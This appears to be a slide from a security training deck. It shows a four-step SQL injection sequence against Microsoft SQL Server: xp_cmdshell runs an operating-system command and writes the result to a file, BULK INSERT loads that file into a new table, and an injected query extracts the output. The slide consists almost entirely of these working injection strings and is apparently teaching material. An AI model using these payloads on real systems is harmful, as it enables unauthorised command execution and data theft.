

# OS Interaction Example
Four queries are used to run the command and  retrieve the results
The would be injected individually
First injection:
'; exec master.xp_cmdshell  'route print > results.txt' --
Second injection:
'; Create TABLE results (outp varchar(5000)); --
Third injection:
'; BULK INSERT results FROM 'results.txt' with (rowterminator = "\n\n\n\n"); --
Fourth injection:
' and 1 in (select outp from results) --